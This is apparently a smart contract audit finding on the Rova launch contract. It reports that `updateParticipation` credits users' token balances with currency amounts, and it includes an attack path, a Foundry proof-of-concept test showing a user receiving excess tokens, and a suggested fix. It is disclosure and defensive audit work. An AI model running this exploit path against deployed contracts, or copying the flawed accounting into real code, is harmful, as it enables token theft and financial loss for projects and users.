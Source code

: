 Loud Flint Leopard

High

# Incorrect Token Allocation in `updateParticipation`

### Summary

The `updateParticipation` function incorrectly updates the `userTokens` map (which tracks **project tokens**) using **currency amounts** (e.g., ETH/USDC) instead of **token deltas**. This creates a chain of corrupted state across all functions that read/write `userTokens`, leading to systemic accounting errors.

### Root Cause

In [`Launch.sol:361`](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L361) and [`Launch.sol:374`](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#374) , the `updateParticipation` function updates `userTokens` using `currencyAmount` instead of `tokenAmount`. As a result, a user's total token balance is increased based on the payment amount rather than the number of tokens they should actually receive.

#### Key Code Snippet (Simplified):
```solidity
// updateParticipation()
uint256 newCurrencyAmount = _calculateCurrencyAmount(tokenPriceBps, request.tokenAmount);
if (prevInfo.currencyAmount > newCurrencyAmount) {
   uint256 refundCurrencyAmount = prevInfo.currencyAmount - newCurrencyAmount;
    // Refund logic uses currency delta
    userTokens.set(userTokenAmount - refundCurrencyAmount); // ❌ Uses currency, not tokens
} else {
    uint256 additionalCurrencyAmount = newCurrencyAmount - prevInfo.currencyAmount;
    // Additional payment uses currency delta
    userTokens.set(userTokenAmount + additionalCurrencyAmount); // ❌
}
```

### Internal Pre-conditions

1. The launch group must allow `updateParticipation` before finalization.
2. A user must have already participated in the launch.
3. A user must submit an `UpdateParticipationRequest` to increase their token allocation.

### External Pre-conditions

1. The price of the token in terms of currency must be greater than 1 (e.g., 1 token costs more than 1 currency unit) or lesser than 1.


### Attack Path

1. The user initially participates in the launch, acquiring a certain amount of tokens.
2. The user submits an `UpdateParticipationRequest` with a higher `currencyAmount`.
3. The `updateParticipation` function incorrectly updates `userTokens` using `currencyAmount` instead of `tokenAmount`.
4. The user ends up with more tokens than they should, exploiting the incorrect calculation.

### Impact

All functions that interact with `userTokens` inherit corrupted data:

| Function             | Impact                                                                                     |
|----------------------|-------------------------------------------------------------------------------------------|
| `participate(), updateParticipation()`      | Incorrectly blocks/permits new participations due to invalid `userTokenAmount`.           |
| `cancelParticipation`| Miscalculates remaining tokens, potentially underflowing or violating min allocation.     |
| `_processRefund()`   | Subtracts wrong token amount, leading to incorrect refunds and token distribution errors. |

Which could lead to:
- Excess token distribution, inflating supply beyond intended limits.
- Financial losses for the project due to token misallocation.
- Potential manipulation by malicious users who repeatedly update their participation to exploit the bug.
- Financial losses for users who want to refund or cancel after preforming updates.

### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {
    LaunchGroupSettings,
    ParticipationRequest,
    UpdateParticipationRequest,
    ParticipationInfo,
    CurrencyConfig
} from "../src/Types.sol";

contract LaunchUpdateParticipationTest is Test, LaunchTestBase {
    LaunchGroupSettings public settings;
    ParticipationRequest public originalParticipationRequest;

    function setUp() public {
        _setUpLaunch();

         // Fund user
         vm.prank(admin.addr);
         currency.transfer(user1, 2000e18);

        // Setup launch group and currency config with price x2
        settings = _setupLaunchGroup();
        CurrencyConfig memory currencyConfig =
            CurrencyConfig({tokenPriceBps: 2 * 10 ** currency.decimals(), isEnabled: true});
        vm.prank(manager);
        launch.setLaunchGroupCurrency(testLaunchGroupId,  address(currency), currencyConfig);
        // Setup initial participation
        originalParticipationRequest = _createParticipationRequest();
        bytes memory signature = _signRequest(abi.encode(originalParticipationRequest));

        vm.startPrank(user1);
        currency.approve(
            address(launch),
            type(uint256).max
        );
        launch.participate(originalParticipationRequest, signature);

        vm.stopPrank();
    }

    function test_UpdateParticipation_PoC_LossOfFunds() public {
        // Prepare update participation request
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(2000);
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        // Verify user token by launch group with his original participation token amount
        ParticipationInfo memory currInfo = launch.getParticipationInfo(updateRequest.prevLaunchParticipationId);
        uint256 currUserTokenAmount = launch.getUserTokensByLaunchGroup(updateRequest.launchGroupId, updateRequest.userId);
        assertEq(currInfo.tokenAmount, currUserTokenAmount);

        vm.startPrank(user1);

        // Update participation
        launch.updateParticipation(updateRequest, updateSignature);

        // Verify update
        currInfo = launch.getParticipationInfo(updateRequest.newLaunchParticipationId);
        assertEq(currInfo.currencyAmount, 4000e18);
        assertEq(currInfo.tokenAmount, 2000e18);

        // Verify user token by launch group with participation token amount after updating
        currUserTokenAmount = launch.getUserTokensByLaunchGroup(updateRequest.launchGroupId, updateRequest.userId);
        // POC: user has more token
        assertNotEq(currInfo.tokenAmount, currUserTokenAmount);
        // updateParticipation has updated user token wiht +2000e18 (= 3000e18), the amount of currency
        assertEq(currUserTokenAmount, 3000e18);
        // while it should add 1000e18, = 2000e18
        assertEq(currInfo.tokenAmount, 2000e18);

        vm.stopPrank();
    }


    function _createUpdateParticipationRequest(uint256 newTokenAmount)
        internal
        view
        returns (UpdateParticipationRequest memory)
    {
        uint256 launchTokenDecimals = launch.tokenDecimals();
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: "newLaunchParticipationId",
            userId: testUserId,
            userAddress: user1,
            tokenAmount: newTokenAmount * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }

}
```

### Mitigation

Modify `updateParticipation` to update `userTokens` using `tokenAmount` instead of `currencyAmount`

**Fix Commit Example:**  
```diff
- uint256 additionalCurrencyAmount = newCurrencyAmount - prevInfo.currencyAmount;
- userTokens.set(request.userId, userTokenAmount + additionalCurrencyAmount);
+ uint256 newTokenAmount = userTokenAmount - prevInfo.tokenAmount + request.tokenAmount;
+ userTokens.set(request.userId, newTokenAmount);
``` 
Also, enforce token-based allocation checks of max/min token amount limit for user:
```sol
if (newTokenAmount > settings.maxTokenAmountPerUser) {
    revert MaxLimitExceeded();
}
```
